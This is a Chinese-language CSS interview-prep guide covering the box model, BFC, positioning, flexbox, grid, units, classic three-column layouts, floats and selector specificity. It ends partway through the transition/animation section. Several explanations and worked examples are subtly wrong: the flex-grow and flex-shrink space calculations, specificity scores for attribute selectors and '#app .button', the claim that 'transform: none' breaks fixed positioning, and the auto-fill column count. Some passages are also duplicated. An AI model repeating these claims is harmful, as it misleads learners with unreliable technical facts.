



---

---
title: 高频 CSS 面试题
description: 涵盖 CSS 盒模型、BFC、IFC/GFC/FFC、Position、Flex 等高频面试知识点。
tags:
  - css
  - flexbox
date: 2026-05-17
---

### 1. CSS 盒模型

#### 1.1 标准盒模型（W3C Box Model）

**从外到内的层次结构：**

| 层次 | 说明 |
|------|------|
| margin | 外边距，透明 |
| border | 边框 |
| padding | 内边距 |
| content | 内容区域 |
| width/height | 内容区的宽高 |

**元素总宽度计算公式：**
```
总宽度 = margin-left + border-left + padding-left + width + padding-right + border-right + margin-right
```

**元素总高度计算公式：**
```
总高度 = margin-top + border-top + padding-top + height + padding-bottom + border-bottom + margin-bottom
```

#### 1.2 IE 盒模型（替代盒模型）

| 特点 | 说明 |
|------|------|
| width | 包含 content + padding + border（全部包含在 width 内） |
| height | 同理 |
| 层序 | margin → border → padding → content |

**计算方式：**
```
总宽度 = margin-left + width（含 padding + border）+ margin-right
```

#### 1.3 box-sizing 属性

```css
/* 默认：标准盒模型（content-box） */
/* width = 内容区的宽度，不含 padding 和 border */
.box1 {
  box-sizing: content-box;
  width: 200px;
  padding: 20px;
  border: 10px solid #000;
  /* 实际渲染宽度 = 200 + 20*2 + 10*2 = 260px */
}

/* 推荐：IE 盒模型（border-box） */
/* width = 内容 + padding + border 的总宽度 */
.box2 {
  box-sizing: border-box;
  width: 200px;
  padding: 20px;
  border: 10px solid #000;
  /* 内容区实际宽度 = 200 - 20*2 - 10*2 = 140px */
  /* 总渲染宽度始终为 200px */
}
```

**为什么推荐 `box-sizing: border-box`：**
- 元素宽度更直观，方便布局计算
- 配合 Flexbox/Grid 使用时更易控制尺寸
- 避免"加了 padding/border 盒子就变大"的问题

```css
/* 全局设置（现代 CSS 项目推荐） */
*, *::before, *::after {
  box-sizing: border-box;
}
```

---

### 2. margin 塌陷与 BFC

#### 2.1 margin 塌陷（Collapsing Margin）

当两个垂直方向（上下）的 margin 相邻时，它们会合并为一个 margin，取较大值。

**塌陷过程：**

| 步骤 | 说明 |
|------|------|
| 1 | 父元素包含子元素 |
| 2 | 子元素设置 margin-top: 20px |
| 3 | margin 合并：子元素的 margin 与父元素的 margin 合并 |
| 4 | 最终结果：合并为 20px（而不是 20px + 20px） |

**margin 塌陷的三种情况：**
1. 相邻兄弟元素之间
2. 父元素与第一个/最后一个子元素之间
3. 空的块级元素（上下 margin 相遇）

**代码示例：**
```css
.margin1 { margin-bottom: 20px; }
.margin2 { margin-top: 30px; }
/* 最终间距 = max(20, 30) = 30px（不是 50px） */
```

**margin 塌陷的三种情况：**
1. 相邻兄弟元素之间
2. 父元素与第一个/最后一个子元素之间
3. 空的块级元素（上下 margin 相遇）

#### 2.2 什么是 BFC

**BFC（Block Formatting Context，块格式化上下文）** 是 CSS 渲染模型中的一个独立区域，定义了块级盒子的布局规则。

**BFC 特性：**

| 特性 | 说明 |
|------|------|
| 垂直排列 | 属于 BFC 的盒子垂直排列（相对于同个 BFC 内的相邻盒子） |
| margin 不塌陷 | BFC 内部的 margin 不会与外部的元素塌陷 |
| 不被浮动覆盖 | BFC 不被浮动元素覆盖 |
| 计算高度 | 计算 BFC 高度时，浮动子元素也参与计算（清除浮动） |

**BFC 示意：**

```
+---------------------------+
| BFC 区域（独立渲染上下文）  |
|                           |
|   Box 1 (margin 折叠)      |
|   Box 2                    |
|                           |
| BFC 外元素不受 BFC 内 margin 影响
+---------------------------+
```

#### 2.3 如何触发 BFC

以下 CSS 属性会创建新的 BFC：

```css
/* 1. float 不为 none */
float: left;

/* 2. position 不为 static/relative（即 absolute/fixed/sticky） */
position: absolute;

/* 3. display 为 inline-block/flex/inline-flex/grid/inline-grid/table/... */
display: inline-block;
display: flex;
display: grid;

/* 4. overflow 不为 visible */
overflow: hidden;   /* 常用 */
overflow: auto;
overflow: scroll;

/* 5. 根元素 html 天然是 BFC */

/* 6. fieldset 元素天然是 BFC */

/* 7. display: flow-root（纯触发 BFC，无副作用） */
display: flow-root;
```

#### 2.4 BFC 应用场景

**场景1：阻止 margin 塌陷**
```html
<div class="parent">
  <div class="child" style="margin-top: 20px;"></div>
</div>

<!-- 解决方案：给父元素创建 BFC -->
<div class="parent" style="overflow: hidden;">
  <div class="child" style="margin-top: 20px;"></div>
</div>
```

**场景2：两栏布局（不让浮动覆盖）**
```css
.wrapper {
  overflow: hidden; /* 创建 BFC，不被浮动覆盖 */
}
.sidebar {
  float: left;
  width: 200px;
}
.content {
  overflow: hidden; /* 创建 BFC，自适应剩余宽度 */
}
```

**场景3：清除浮动（撑开父元素高度）**
```css
.clearfix {
  overflow: hidden; /* 浮动子元素参与高度计算 */
}
```

**场景4：阻止文字环绕浮动元素**
```css
.text {
  overflow: hidden; /* BFC，阻断与浮动的文本流关系 */
}
```

---

### 3. IFC / GFC / FFC 是什么

#### 3.1 IFC（Inline Formatting Context）

**IFC** 是行内格式化上下文，由行内级元素（inline/inline-block）参与形成。

**规则：**
- 盒子水平排列
- 垂直方向：baseline 对齐
- 一行放不下时换行（受 `white-space` 影响）
- `line-height` 决定行盒高度
- `vertical-align` 调整垂直对齐

**IFC 行盒结构：**

```
+--------------------------------------------------+
| 行盒（Line Box）                                  |
|   [inline] [inline-block] [text] [img] [text]    |
|   (默认 baseline 对齐)                             |
+--------------------------------------------------+

行盒高度 = max(line-height, img-height, 等)
```

#### 3.2 FFC（Flex Formatting Context）

**FFC** 由 `display: flex/inline-flex` 创建，是弹性盒子的格式化上下文。

- 子元素变为 flex item
- flex item 不参与 BFC/IFC，按 flex 规则排列
- flex item 不支持 `float` 和 `clear`
- `vertical-align` 在 flex item 上无效

#### 3.3 GFC（Grid Formatting Context）

**GFC** 由 `display: grid/inline-grid` 创建，是网格布局的格式化上下文。

- 子元素变为 grid item
- 按网格轨道（grid track）排列
- 网格线（grid line）定义放置规则

**GFC 网格结构：**

```
+---------------------------+
| GFC（网格格式化上下文）    |
|                           |
|   [grid-item] [grid-item] |  <- 行1
|                           |
|   [grid-item] [grid-item] |  <- 行2
|                           |
+---------------------------+
```

**规则：**
- 子元素变为 grid item
- 按网格轨道（grid track）排列
- 网格线（grid line）定义放置规则

---

### 4. position 属性

| 属性值 | 定位参照 | 是否脱离文档流 | 滚动时 |
|--------|---------|--------------|--------|
| `static` | 自然位置（无定位） | 否 | 随页面滚动 |
| `relative` | 自身原始位置 | 否（占据原位） | 随页面滚动 |
| `absolute` | 最近已定位祖先（不含 static） | 是 | 随页面滚动（若祖先 fixed 则随窗口） |
| `fixed` | 视口（viewport） | 是 | 不随页面滚动 |
| `sticky` | 视口 + 滚动容器（混合） | 否（占位） | 条件性固定 |

#### 4.1 相对定位（relative）

```css
.relative {
  position: relative;
  top: 10px;
  left: 20px;
  /* 相对于自身原始位置偏移 */
  /* 原位保留（其他元素不知道它偏移了） */
}
```

#### 4.2 绝对定位（absolute）

```css
/* 定位参照：最近已定位祖先 */
.parent {
  position: relative; /* 创建参照物 */
}
.child {
  position: absolute;
  top: 0;
  right: 0;
  /* 相对于 parent 右上角定位 */
}

/* 无已定位祖先 → 相对于初始包含块（html）定位 */
```

#### 4.3 固定定位（fixed）失效原因

| 原因 | 说明 |
|------|------|
| **transform 祖先** | 祖先元素设置了 transform（即使 transform: none）导致 fixed 相对于 transform 祖先定位，而不是视口 |
| **filter 祖先** | 同样会创建新的堆叠上下文，导致 fixed 失效 |
| **移动端 WebView** | iOS Safari 使用惯性滚动时 fixed 会"飘" |
| **创建新容器的 CSS** | perspective, will-change 等也会导致失效 |

**解决方案：**
```css
/* 将 fixed 元素移到 body 或更高层级 */
body {
  transform: none; /* 确保无 transform 干扰 */
}

/* 或使用 JS 在滚动时动态计算位置（iOS workaround） */
```

#### 4.4 粘性定位（sticky）

```css
.sticky {
  position: sticky;
  top: 10px;
  /* 滚动容器内的行为：
     1. 初始：正常文档流位置
     2. 滚动后距离顶部 < 10px 时：固定在 top: 10px
     3. 滚动出容器时：恢复文档流（不再固定） */
}
```

**sticky 原理：**

| 阶段 | 说明 |
|------|------|
| 初始位置 | sticky 元素在正常文档流中 |
| 滚动至阈值 | 当滚动位置到达 top: 10px 位置时 |
| 固定不动 | 元素固定在 top: 10px 位置 |
| 继续滚动 | 当 sticky 随内容离开容器时，恢复文档流（不再固定） |

**sticky 注意事项：**
- 必须指定 `top/left/right/bottom` 中的一个
- 父容器必须有明确的高度（不能是 `overflow: hidden` 裁剪了子元素）
- 父容器不能是 `overflow: hidden/auto`，否则 sticky 无法超出

#### 4.5 z-index 与层叠上下文

```css
.a { z-index: 1; }   /* 数值越大，越在上层 */
.b { z-index: 10; } /* 10 > 1，b 在 a 之上 */
```

**层叠上下文（Stacking Context）触发条件：**
```css
/* 以下属性会创建新的层叠上下文 */
position: relative/absolute/fixed + z-index !== auto;
position: fixed/sticky; /* 即使 z-index 是 auto 也创建 */
z-index !== auto;       /* flex 子元素 */
z-index !== auto;       /* grid 子元素 */
opacity < 1;
transform !== none;
filter !== none;
mix-blend-mode !== normal;
isolation: isolate;
will-change: <上述任意属性>;
-webkit-overflow-scrolling: touch; /* iOS */
```

**层叠等级（从低到高）：**
```
1. 块级盒（block boxes）
2. 浮动盒（float boxes）
3. 行内盒（inline boxes）
4. z-index: auto / z-index: 0 的定位元素
5. z-index: 正整数 的定位元素（数值越大越上层）
```

**z-index 失效的常见原因：**
```css
/* 1. 父元素没有创建层叠上下文，子元素 z-index 再高也受父限制 */
.parent1 { z-index: 100; } /* 未创建层叠上下文 */
.parent2 { z-index: 1; transform: scale(1); } /* 创建了层叠上下文 */
.child { z-index: 9999; }
/* child 虽然 z-index 很高，但因为在 parent1 内，
   所以不会超过 parent2 的子元素 */

.parent1 {
  position: relative;
  z-index: 100;
}
.parent2 {
  position: relative;
  z-index: 1;
  transform: scale(1); /* 创建层叠上下文 */
}

/* 2. 元素不是定位元素（position 不是 relative/absolute/fixed/sticky） */
.element { z-index: 999; } /* 无效！ */

/* 3. 层叠上下文嵌套，按父级上下文比较 */
```

---

### 5. Flex 布局原理，flex:1 含义

#### 5.1 Flex 布局基本概念

**Flex 容器与项目：**

```
+------------------------------------------+
|            flex container                |
|  +--------+ +--------+ +--------+        |
|  | flex-  | | flex-  | | flex-  |        |
|  | item 1 | | item 2 | | item 3 |        |
|  +--------+ +--------+ +--------+        |
+------------------------------------------+
```

**核心概念：**

| 概念 | 说明 |
|------|------|
| 主轴（main axis） | 默认水平，flex-direction 控制 |
| 交叉轴（cross axis） | 默认垂直，与主轴垂直 |
| main start / main end | 主轴的起点和终点 |
| cross start / cross end | 交叉轴的起点和终点 |

#### 5.2 flex 容器属性

```css
.container {
  display: flex;

  /* 主轴方向 */
  flex-direction: row | row-reverse | column | column-reverse;

  /* 换行规则 */
  flex-wrap: nowrap | wrap | wrap-reverse;

  /* 方向 + 换行（简写） */
  flex-flow: row wrap;

  /* 主轴对齐 */
  justify-content: flex-start | flex-end | center |
                   space-between | space-around | space-evenly;

  /* 交叉轴对齐 */
  align-items: stretch | flex-start | flex-end | center | baseline;

  /* 多行对齐（flex-wrap: wrap 时生效） */
  align-content: flex-start | flex-end | center |
                 space-between | space-around | stretch;
}
```

#### 5.3 flex item 属性

```css
.item {
  /* 分配剩余空间 */
  flex-grow: 0;   /* 默认0，不放大 */
  flex-shrink: 1; /* 默认1，可缩小 */
  flex-basis: auto; /* 初始基准尺寸 */

  /* flex 简写 */
  flex: 1;        /* = flex: 1 1 0% */
  flex: auto;     /* = flex: 1 1 auto */
  flex: none;     /* = flex: 0 0 auto */

  /* 单独对齐（覆盖 align-items） */
  align-self: auto | flex-start | flex-end | center | stretch | baseline;

  /* 排列顺序 */
  order: 0; /* 默认0，值越小越靠前 */
}
```

#### 5.4 flex:1 详解

```css
.item { flex: 1; }
/* 完整展开：flex-grow: 1; flex-shrink: 1; flex-basis: 0%; */

/* flex-basis: 0% 的含义：
   不以内容为基准，直接从 0 开始分配剩余空间 */

/* flex: 2 = flex: 2 1 0%（占 2 份） */
/* flex: 1 = flex: 1 1 0%（占 1 份） */
/* flex: 1 和 flex: 2 的元素，比例约为 1:2 */

/* flex: 1 vs flex: auto 的区别：
   flex: 1  → flex-basis: 0%，从 0 开始分配
   flex: auto → flex-basis: auto，保留内容尺寸后再分配

   例子：两个 flex: 1 的元素，内容分别为 "Hello" 和 "Hi"
   flex: 1（0%基准）：各占 50%（从 0 开始平分）
   flex: auto（auto基准）：先保留各自内容宽度，剩余空间平分 */
```

#### 5.5 flex-grow / shrink / basis 区别

| 属性 | 作用 | 默认值 | 数值含义 |
|------|------|--------|---------|
| `flex-grow` | 分配剩余空间 | 0 | 0=不分配；>0=按比例分配 |
| `flex-shrink` | 收纳溢出空间 | 1 | 0=不缩小；>0=按比例收缩 |
| `flex-basis` | 初始基准尺寸 | auto | auto=内容尺寸；固定值=固定宽度 |

```css
/* 分配剩余空间示例 */
.container { width: 600px; }
.item1 { flex-grow: 1; } /* 剩余 400px，获得 400px */
.item2 { flex-grow: 2; } /* 剩余 400px，获得 266.67px */

/* 收缩溢出空间示例 */
.container { width: 300px; }
.item1 { width: 200px; flex-shrink: 1; } /* 溢出 100px，贡献 50px */
.item2 { width: 400px; flex-shrink: 1; } /* 溢出 100px，贡献 50px */
/* 收缩量 = 溢出量 × (自身基准 / 所有基准之和) */
```

#### 5.6 常见 Flex 布局实战

```css
/* 1. 水平居中 */
.flex-center {
  display: flex;
  justify-content: center;
  align-items: center;
}

/* 2. 导航栏 */
.nav {
  display: flex;
  justify-content: space-between;
  align-items: center;
  height: 60px;
}

/* 3. Sticky Footer（页面最小高度时，footer 贴底） */
.page {
  display: flex;
  flex-direction: column;
  min-height: 100vh;
}
.content { flex: 1; }

/* 4. 三栏等高布局 */
.columns {
  display: flex;
  gap: 20px;
}
.column { flex: 1; } /* 自动等高（align-items: stretch 默认） */
```

---

### 6. Grid 布局，Grid vs Flex 区别

#### 6.1 Grid 基础

```css
.grid {
  display: grid;

  /* 定义列 */
  grid-template-columns: 200px 1fr 200px;
  grid-template-columns: repeat(3, 1fr);
  grid-template-columns: 100px auto 100px;
  grid-template-columns: minmax(100px, 1fr) 2fr;

  /* 定义行 */
  grid-template-rows: 100px auto 100px;
  grid-template-rows: repeat(3, minmax(50px, auto));

  /* 简写：grid-template（不建议混用） */
  grid-template: 100px auto / 1fr 1fr 1fr;

  /* gap */
  gap: 20px;
  column-gap: 20px;
  row-gap: 10px;

  /* 区域定义 */
  grid-template-areas:
    "header header header"
    "sidebar main aside"
    "footer footer footer";
}

/* 网格线编号定位 */
.item {
  grid-column: 1 / 3;  /* 从第1条线到第3条线（跨2列） */
  grid-column: 1 / span 2; /* 从第1条线跨2列 */
  grid-column: 1 / -1;  /* 贯穿所有列 */
  grid-row: 2 / 4;      /* 从第2条线到第4条线（跨2行） */
}

/* 命名区域定位 */
.header { grid-area: header; }
.sidebar { grid-area: sidebar; }
.main { grid-area: main; }
.footer { grid-area: footer; }

/* 隐式网格（自动创建行/列） */
grid-auto-rows: 100px; /* 自动创建的行高度 */
grid-auto-flow: row dense; /* dense 填充空白 */
```

#### 6.2 fr 单位与 minmax

```css
/* fr：fraction，剩余空间比例单位 */
grid-template-columns: 1fr 2fr 1fr;
/* 总共 4fr，第一列 1/4，第二列 2/4，第三列 1/4 */

grid-template-columns: repeat(3, 1fr);
/* 三等分 */

/* minmax(min, max)：尺寸范围 */
grid-template-columns: minmax(200px, 1fr) 1fr 1fr;
/* 第一列：最小 200px，最大 1fr */

/* auto-fill vs auto-fit */
grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
/* auto-fill：尽可能填入网格，空格保留 */
grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
/* auto-fit：所有空白压缩（让已有列占满） */

/* 实际效果对比：
   容器宽度 700px，每列 minmax(200px, 1fr)
   auto-fill: 3列 → 实际 4列（200*3=600，1列空白）
   auto-fit:  3列 → 列宽自动扩展填满 700px */
```

#### 6.3 Grid vs Flex 区别

| 特性 | Flexbox | Grid |
|------|---------|------|
| 维度 | 一维（行或列） | 二维（行和列） |
| 布局方向 | 单轴线排列 | 网格轨道排列 |
| 适用场景 | 导航栏、列表、卡片组、居中 | 页面整体布局、数据表格、相册 |
| 对齐方向 | 主轴 + 交叉轴两个方向 | 行对齐 + 列对齐 |
| 项目定位 | 按顺序/方向排列 | 可精确指定行列位置 |
| 内容驱动 | flex-grow 分配剩余空间 | 由轨道定义决定尺寸 |
| 空间利用 | 适合内容不规则的流式布局 | 适合规则对齐的网格式布局 |

```css
/* Flex：适合内容驱动的单行/单列 */
.flex-nav {
  display: flex;
  gap: 20px;
}
.flex-nav a {
  padding: 8px 16px;
  /* 每个 a 根据内容自适应宽度 */
}

/* Grid：适合二维网格 */
.grid-gallery {
  display: grid;
  grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
  gap: 16px;
}
.gallery-item:nth-child(1) {
  grid-column: span 2; /* 某些项目可跨列 */
}
.gallery-item:nth-child(4) {
  grid-row: span 2;   /* 某些项目可跨行 */
}
```

---

### 7. rem / em / vw / vh / vmin / vmax 区别，px 为什么不是绝对单位

#### 7.1 各单位详解

| 单位 | 定义 | 说明 |
|------|------|------|
| `px` | 像素 | 屏幕物理像素的 CSS 映射，非绝对单位 |
| `em` | 相对于自身 font-size | 无 font-size 时继承祖先 |
| `rem` | 相对于根元素 html 的 font-size | 通常 16px（浏览器默认值） |
| `vw` | 视口宽度的 1% | `100vw` = 视口宽度 |
| `vh` | 视口高度的 1% | `100vh` = 视口高度 |
| `vmin` | vw 和 vh 中较小值的 1% | 移动端横竖屏适配 |
| `vmax` | vw 和 vh 中较大值的 1% | 同上 |

```css
/* rem 示例：响应式字体 */
html { font-size: 16px; }
@media (max-width: 768px) {
  html { font-size: 14px; }
}
h1 { font-size: 2rem; } /* 桌面32px，移动28px */
p { font-size: 1rem; }

/* vw 示例：流体字体 */
h1 {
  font-size: clamp(24px, 5vw, 48px);
  /* 最小24px，随视口增长，最大48px */
}

/* em 示例：相对于自身 font-size */
p { font-size: 16px; line-height: 1.5em; /* 24px */ }
p strong { font-size: 1.25em; /* 16*1.25=20px */ }

/* vmin/vmax 示例：全屏容器 */
.hero {
  width: 100vmin; /* 宽高较小的那个的100% */
  height: 100vmin;
}
```

#### 7.2 px 为什么不是绝对单位

传统认为 px 是"绝对单位"是因为它映射到屏幕物理像素。然而在现代显示设备上：

1. **设备像素比（DPR）**：`window.devicePixelRatio`，1 CSS px 可能对应 2 个或 3 个物理像素
   - iPhone Retina 屏幕：dpr=2，1 CSS px = 2 物理像素
   - 高分辨率屏幕：1 CSS px 可能跨越多个物理像素

2. **分辨率无关的真正绝对单位**：`cm`, `mm`, `in`, `pt`
   ```css
   .real-absolute {
     width: 1in; /* 在任何设备上物理上都是1英寸 */
     /* 但在屏幕上的实际像素取决于屏幕PPI */
   }
   ```
   这些单位基于物理尺寸（1in = 2.54cm），在屏幕上的渲染依赖屏幕 PPI，在屏幕上**也不是真正绝对**的。

3. **px 在屏幕上是相对的单位**：取决于输出介质的分辨率

---

### 8. 响应式布局，媒体查询，双栏/三栏布局，圣杯 vs 双飞翼

#### 8.1 响应式布局核心

```css
/* 移动优先：min-width（逐步增强） */
/* 桌面优先：max-width（逐步降级） */

/* 断点参考 */
@media (min-width: 576px)  { /* 小屏手机 */ }
@media (min-width: 768px)  { /* 平板 */ }
@media (min-width: 992px)  { /* 小屏笔记本 */ }
@media (min-width: 1200px) { /* 大屏桌面 */ }
@media (min-width: 1400px) { /* 超大屏 */ }
```

#### 8.2 双栏布局

```css
/* 方式1：flexbox */
.layout {
  display: flex;
  gap: 20px;
}
.sidebar { width: 200px; flex-shrink: 0; }
.main { flex: 1; min-width: 0; }

/* 方式2：grid */
.layout {
  display: grid;
  grid-template-columns: 200px 1fr;
  gap: 20px;
}

/* 移动端：堆叠 */
@media (max-width: 768px) {
  .layout { flex-direction: column; }
  .sidebar { width: 100%; }
}
```

#### 8.3 三栏布局

```css
/* 方式1：flexbox */
.layout {
  display: flex;
}
.left, .right { width: 200px; flex-shrink: 0; }
.center { flex: 1; min-width: 0; }

/* 方式2：grid */
.layout {
  display: grid;
  grid-template-columns: 200px 1fr 200px;
}

/* 方式3：position */
.layout { position: relative; }
.left, .right { position: absolute; top: 0; width: 200px; }
.left { left: 0; }
.right { right: 0; }
.center { margin: 0 200px; }
```

#### 8.4 圣杯布局 vs 双飞翼布局

两种经典的三栏布局，解决"main 区域优先加载"和"三栏等高"问题。

**圣杯布局（Holy Grail）：**

```html
<div class="holy-grail">
  <header>Header</header>
  <div class="bd">
    <main class="main">Main</main>
    <nav class="nav">Nav</nav>
    <aside class="aside">Aside</aside>
  </div>
  <footer>Footer</footer>
</div>
```

```css
.holy-grail .bd {
  padding: 0 200px; /* 为左右栏留位置 */
  min-width: 500px;
}
.holy-grail .main {
  float: left; width: 100%;
}
.holy-grail .nav {
  float: left; width: 200px;
  margin-left: -100%;   /* 移到最左 */
  position: relative;
  left: -200px;
}
.holy-grail .aside {
  float: left; width: 200px;
  margin-left: -200px;
  position: relative;
  right: -200px;
}
```

**双飞翼布局：**（淘宝提出，比圣杯少用一层 relative）

```html
<div class="double-wing">
  <header>Header</header>
  <div class="bd">
    <main class="main-wrap">
      <div class="main">Main</div>
    </main>
    <nav class="nav">Nav</nav>
    <aside class="aside">Aside</aside>
  </div>
  <footer>Footer</footer>
</div>
```

```css
.double-wing .main-wrap {
  float: left; width: 100%;
}
.double-wing .main {
  margin: 0 200px; /* main 自身加 margin */
}
.double-wing .nav {
  float: left; width: 200px;
  margin-left: -100%;
}
.double-wing .aside {
  float: left; width: 200px;
  margin-left: -200px;
}
```

**核心原理图（圣杯）：**

| 阶段 | 说明 |
|------|------|
| 初始 | 全浮动，main 宽度 100%，左右栏被挤到下一行 |
| margin-left 负值拉回 | 第一行：Main（width:100%），第二行：[Nav][Aside] |
| 拉回 Nav | margin-left: -100% 拉 Nav 到第一行最左 |
| 拉回 Aside | margin-left: -200px 拉 Aside 到第一行最右 |
| 最终 | 加 padding + relative 偏移定位 |

```
最终布局：
+--+------------+--+
|N |    Main    | A|
+--+------------+--+
```

**圣杯 vs 双飞翼 区别：**
- 圣杯：`main` 无专属容器，用 `padding` + `relative` 调整
- 双飞翼：`main` 有专属包裹容器，用 `margin` 调整，避免 `relative`
- 双飞翼更简洁，避免了圣杯中 `relative` 定位的问题（如 overflow 裁剪）

---

### 9. 浮动原理，清除浮动方式，overflow:hidden 清除浮动原理

#### 9.1 浮动原理

**浮动元素的行为：**

| 特性 | 说明 |
|------|------|
| 脱离文档流 | 浮动元素从正常流中抽出，位置向左/右移动 |
| 块级元素忽略 | 后续块级元素忽略浮动（但行内元素感知浮动） |
| 行内内容围绕 | 浮动元素在行框内排列，行内内容围绕浮动元素 |

**示例：**

```
正常文档流：块级元素垂直排列

[A 左浮动后]：
+---+----------+
| A | B（占据 A 右侧空间，块级不感知浮动）|
+---+----------+
  |（行内内容围绕 A）
```

#### 9.2 清除浮动方式

**方式1：clear 属性**
```css
.clearfix::after {
  content: '';
  display: block;
  clear: both;
}
```

**方式2：BFC 清除浮动**
```css
.float-container {
  overflow: hidden; /* 或 auto */
}
```

**方式3：display: flow-root（推荐，无副作用）**
```css
.float-container {
  display: flow-root;
  /* 专门用于创建 BFC，不引入任何副作用 */
}
```

#### 9.3 overflow:hidden 清除浮动的原理

| 步骤 | 说明 |
|------|------|
| 触发 BFC | overflow: hidden 触发 BFC（块格式化上下文） |
| 计算高度 | BFC 的特性：计算高度时，浮动子元素也参与计算 |
| 撑开父元素 | 所以父容器被浮动子元素撑开 |
| 视觉效果 | 视觉上等于"清除了浮动"，但 float-child 仍在文档中 |

```css
/* 示例 */
.container {
  overflow: hidden; /* 创建 BFC，浮动子元素参与高度计算 */
}
```

---

### 10. CSS 选择器优先级，!important 为什么不推荐

#### 10.1 优先级计算（Specificity）

```
优先级 = (ID选择器数量, 类/属性/伪类数量, 元素/伪元素数量)

计算规则：
内联样式   → 1,0,0,0  （style="..."）
ID 选择器  → 0,1,0,0  （#app）
类/属性/伪类 → 0,0,1,0  （.btn, [type="text"], :hover）
元素/伪元素  → 0,0,0,1  （div, ::before）

比较规则：从左到右逐位比较
(1,0,0,0) > (0,9,0,0) > (0,0,9,0) > (0,0,0,9)
```

```css
/* 0,0,1,0 */
.class1 { color: blue; }

/* 0,0,0,2 */
div p { color: green; } /* div + p = 2 elements */

/* 0,1,0,0 */
#id { color: red; }

/* 1,0,0,0 */
[style="color:purple"] { color: purple; }

/* (0,1,1,1) */
.wrapper .main h1 { color: orange; }

/* !important 优先级最高（但会打破级联） */
button { color: red !important; }
```

#### 10.2 !important 为什么不推荐

1. **打破级联**：覆盖任何选择器，降低样式系统的可预测性
2. **难以维护**：后期开发者只能再加 `!important` 覆盖，造成恶性循环
3. **Bugs 难排查**：`!important` 散落各处，样式冲突难定位
4. **响应式/动态样式失效**：媒体查询等条件样式可能被 `!important` 意外覆盖

```css
/* 反面示例 */
.btn { color: red !important; background: blue !important; }
.button { color: blue !important; } /* 恶性循环开始 */
#submit-btn { color: green !important; } /* 继续加 */
button { color: yellow !important; } /* 最后变成 !important 大混战 */
```

**正确的解决方式：**
```css
/* 提升选择器优先级，而不是用 !important */
.wrapper .button { color: red; } /* 变成 (0,2,0,1) */
#app .button { color: red; }     /* 变成 (1,1,0,1) */
```

---

### 11. nth-child vs nth-of-type，::before vs :before

#### 11.1 nth-child vs nth-of-type

```html
<div class="container">
  <p>第一个段落</p>    <!-- p:nth-child(1) ✓  p:nth-of-type(1) ✓ -->
  <p>第二个段落</p>    <!-- p:nth-child(2) ✓  p:nth-of-type(2) ✓ -->
  <span>第一个 span</span> <!-- span:nth-child(3) ✓ span:nth-of-type(1) ✓ -->
  <p>第三个段落</p>    <!-- p:nth-child(4) ✓  p:nth-of-type(3) ✓ -->
  <p>第四个段落</p>    <!-- p:nth-child(5) ✓  p:nth-of-type(4) ✓ -->
</div>
```

```css
/* nth-child(n)：先选第 n 个子节点，再看类型是否匹配 */
p:nth-child(2)  { color: red; }
/* 选择：作为第 2 个子节点 且 是 p 元素的节点 */

/* nth-of-type(n)：先选同类型中的第 n 个 */
p:nth-of-type(2) { color: blue; }
/* 选择：作为 p 元素中的第 2 个 */

/* 负向选择 */
li:nth-child(odd)      { } /* 奇数个子节点 */
li:nth-child(even)     { } /* 偶数个子节点 */
li:nth-child(2n+1)     { } /* 同 odd */
li:nth-child(3n)       { } /* 3的倍数 */
li:nth-child(-n+3)     { } /* 前3个 */
li:nth-last-child(1)   { } /* 倒数第1个 */
```

#### 11.2 ::before vs :before

| 写法 | 含义 | 兼容性 |
|------|------|--------|
| `:before` | CSS2 语法（单冒号） | IE8+ |
| `::before` | CSS3 语法（双冒号） | 现代浏览器 |

```css
/* ::before 和 ::after 是伪元素（pseudo-elements） */
/* :hover 和 :focus 是伪类（pseudo-classes） */

/* 正确：双冒号 */
p::before {
  content: '前缀 ';    /* content 必须写，即使空内容也要 content: '' */
  color: #999;
}

p::after {
  content: ' 后缀';
  display: block;
}

/* 单冒号是 CSS2 的旧写法，效果一样，但不推荐 */
```

---

### 12. transition vs animation 区别，CSS 动画性能差的原因，transform 性能更好原因

#### 12.1 transition vs animation

| 特性 | transition | animation |
|------|-----------|-----------|
| 触发方式 | 需要状态改变（hover/JS/class变化） | 自动/循环播放 |
| 定义帧数 | 只能定义开始和结束（两帧） | 可定义多帧（关键帧） |
| 循环 | 需要额外触发 | `animation-iteration-count: infinite` |
| 控制 | 简单，不能暂停/倒退 | 丰富（暂停/倒退/延迟） |

```css
/* transition：两帧过渡 */
.box {
  width: 100px;
  transition: width 0.3s ease, background 0.5s ease;
}
